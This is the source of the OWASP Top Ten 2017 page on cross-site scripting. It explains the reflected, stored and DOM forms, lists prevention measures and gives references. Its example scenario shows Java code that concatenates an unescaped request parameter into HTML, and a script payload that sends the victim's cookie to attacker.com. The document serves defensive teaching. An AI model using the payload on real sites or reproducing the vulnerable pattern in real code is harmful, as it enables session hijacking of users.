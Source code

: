 ```yaml
---

document: OWASP Top Ten 2017
year: 2017
order: 12
title: A7:2017-Cross-Site Scripting (XSS)
lang: en
layout: full-width-document
author:
contributors:
tags: OWASP Top Ten 2017, Top Ten, A7:2017, xss
exploitability: 3
prevalence: 3
detectability: 3
technical: 2

---
```


{% include risk_begin.html %}
{%- include risk_description.html pos="firstLeft" -%}
Automated tools can detect and exploit all three forms of XSS, and there are freely available exploitation frameworks.
{%- include risk_description.html pos="mid" -%}
XSS is the second most prevalent issue in the OWASP Top 10, and is found in around two thirds of all applications.<br>
Automated tools can find some XSS problems automatically, particularly in mature technologies such as PHP, J2EE / JSP, and ASP.NET.
{%- include risk_description.html pos="right" -%}
The impact of XSS is moderate for reflected and DOM XSS, and severe for stored XSS, with remote code execution on the victim's browser, such as stealing credentials, sessions, or delivering malware to the victim.
{%- include risk_end.html -%}

{%- include t10_subsection_begin.html -%}
{%- include t10_subsection.html token="isTheApplicationVulnerable" pos="firstLeft" -%}
There are three forms of XSS, usually targeting users' browsers:<br>
* **Reflected XSS**: The application or API includes unvalidated and unescaped user input as part of HTML output. A successful attack can allow the attacker to execute arbitrary HTML and JavaScript in the victim’s browser. Typically the user will need to interact with some malicious link that points to an attacker-controlled page, such as malicious watering hole websites, advertisements, or similar.<br>
* **Stored XSS**: The application or API stores unsanitized user input that is viewed at a later time by another user or an administrator. Stored XSS is often considered a high or critical risk.<br>
* **DOM XSS**: JavaScript frameworks, single-page applications, and APIs that dynamically include attacker-controllable data to a page are vulnerable to DOM XSS. Ideally, the application would not send attacker-controllable data to unsafe JavaScript APIs.<br>

Typical XSS attacks include session stealing, account takeover, MFA bypass, DOM node replacement or defacement (such as trojan login panels), attacks against the user's browser such as malicious software downloads, key logging, and other client-side attacks.

{%- include t10_subsection.html token="howToPrevent" pos="right" -%}
Preventing XSS requires separation of untrusted data from active browser content. This can be achieved by:<br>
* Using frameworks that automatically escape XSS by design, such as the latest Ruby on Rails, React JS. Learn the limitations of each framework's XSS protection and appropriately handle the use cases which are not covered.<br>
* Escaping untrusted HTTP request data based on the context in the HTML output (body, attribute, JavaScript, CSS, or URL) will resolve Reflected and Stored XSS vulnerabilities. The [OWASP Cheat Sheet 'XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) has details on the required data escaping techniques.<br>
* Applying context-sensitive encoding when modifying the browser document on the client side acts against DOM XSS. When this cannot be avoided, similar context sensitive escaping techniques can be applied to browser APIs as described in the [OWASP Cheat Sheet 'DOM based XSS Prevention'](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).<br>
* Enabling a [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) as a defense-in-depth mitigating control against XSS. It is effective if no other vulnerabilities exist that would allow placing malicious code via local file includes (e.g. path traversal overwrites or vulnerable libraries from permitted content delivery networks).<br>

{%- include t10_subsection.html token="exampleAttackScenarios" pos="left" -%}
**Scenario #1**: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping:<br>
    {% include code_red_begin.html -%} (String) page += "<input name='creditcard' type='TEXT' {%- include code_red_end.html %}
    {% include code_red_begin.html -%} value='" + request.getParameter("CC") + "'>"; {%- include code_red_end.html %}

The attacker modifies the ‘CC’ parameter in the browser to:<br>
    {% include code_red_begin.html -%} '>&lt;script>document.location= {%- include code_red_end.html %}
    {% include code_red_begin.html -%} 'http://www.attacker.com/cgi-bin/cookie.cgi? {%- include code_red_end.html %}
    {% include code_red_begin.html -%} foo='+document.cookie&lt;/script>'. {%- include code_red_end.html %}

This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session. <br>
**Note**: Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defense the application might employ.

{%- include t10_subsection.html token="references" pos="right" -%}
**OWASP**<br>
* [OWASP Proactive Controls: Encode and Escape Data](/www-project-proactive-controls/v3/en/c4-encode-escape-data)<br>
* [OWASP Proactive Controls: Validate All Inputs](/www-project-proactive-controls/v3/en/c5-validate-inputs)<br>
* [OWASP Application Security Verification Standard: V5](/www-project-application-security-verification-standard)<br>
* [OWASP Testing Guide: Testing for Reflected XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)<br>
* [OWASP Testing Guide: Testing for Stored XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)<br>
* [OWASP Testing Guide: Testing for DOM XSS](/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client_Side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)<br>
* [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)<br>
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)<br>
* [OWASP Cheat Sheet: XSS Filter Evasion](/www-community//xss-filter-evasion-cheatsheet)<br>
* [OWASP Java Encoder Project](/www-project-java-encoder) ([old wiki](https://wiki.owasp.org/index.php/OWASP_Java_Encoder_Project))<br>
<br>
**External**<br>
* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)<br>
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
{% include t10_subsection_end.html %}